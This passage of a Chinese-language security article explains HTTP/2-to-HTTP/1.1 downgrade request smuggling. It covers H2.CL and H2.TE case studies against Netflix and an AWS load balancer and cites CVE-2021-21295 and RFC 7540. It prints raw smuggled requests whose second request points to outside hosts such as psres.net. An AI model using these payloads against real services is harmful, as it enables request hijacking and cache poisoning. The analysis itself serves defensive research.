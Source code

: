 在 HTTP/2 中，这些header是多余的，因为使用二进制流进行传输，没有文本的概念，消息的内容都是由数据帧（Data Frame）进行传递，每个帧中的内容的长度，是有Length进行记录的。

[![](https://p1.ssl.qhimg.com/t0195cedf76f29cb98e.png)](https://p1.ssl.qhimg.com/t0195cedf76f29cb98e.png)

看似走私并不会在HTTP/2协议中发生（我之前也是这么想的），但是在HTTP/2转换为HTTP/1.x的降级过程中，就会出现新的问题。

[![](https://p5.ssl.qhimg.com/t01a1824bdd1683fb28.png)](https://p5.ssl.qhimg.com/t01a1824bdd1683fb28.png)

前端服务使用HTTP/2协议，使用协议中内在的message的Length，而后端服务却使用HTTP/1.1协议，可以接收到含有CL或者TE的请求，此时就会导致出现HTTP/2协议的走私可能。

### <a class="reference-link" name="%E6%A1%88%E4%BE%8B%E7%A0%94%E7%A9%B6"></a>案例研究

#### <a class="reference-link" name="H2.CL"></a>H2.CL

以Netflix为例，发送此http/2数据

[![](https://p0.ssl.qhimg.com/t014915453b70bec0ae.png)](https://p0.ssl.qhimg.com/t014915453b70bec0ae.png)

在转换成http/1.1后，内容成为了

```
POST /n HTTP/1.1
Host: www.netflix.com
Content-Length: 4
abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo: bar
```

对于后端服务来说，这直接导致了走私漏洞，相关漏洞信息可以查看[CVE-2021-21295](https://github.com/netty/netty/security/advisories/GHSA-wm47-8v5p-wjpj)。那么对于完全不需要Content-Length来进行标识请求体长度的HTTP/2协议来说，为什么会出现这个问题呢？

[![](https://p5.ssl.qhimg.com/t01e62a0507398102b7.png)](https://p5.ssl.qhimg.com/t01e62a0507398102b7.png)

RFC7540编写的十分清晰，HTTP/2请求和响应可以包括Content-Length头，但是对于Content-Length的值和DATA frame的长度不一致的情况，应该视为格式错误。而且第三段明确规定，处理 HTTP 请求或响应的中介（即任何中介不充当隧道）不得转发格式错误的请求或响应。

#### <a class="reference-link" name="H2.TE"></a>H2.TE

此漏洞发生在AWS Application Load Balance中

发送数据包为

[![](https://p1.ssl.qhimg.com/t01c9bc17308b3d6032.png)](https://p1.ssl.qhimg.com/t01c9bc17308b3d6032.png)

后端服务接受到数据包为

```
POST /identity/XUI/ HTTP/1.1
Host: id.b2b.oath.com
Content-Length: 68
Transfer-Encoding: chunked

0

GET /oops HTTP/1.1
Host: psres.net
Content-Length: 10

x=

```
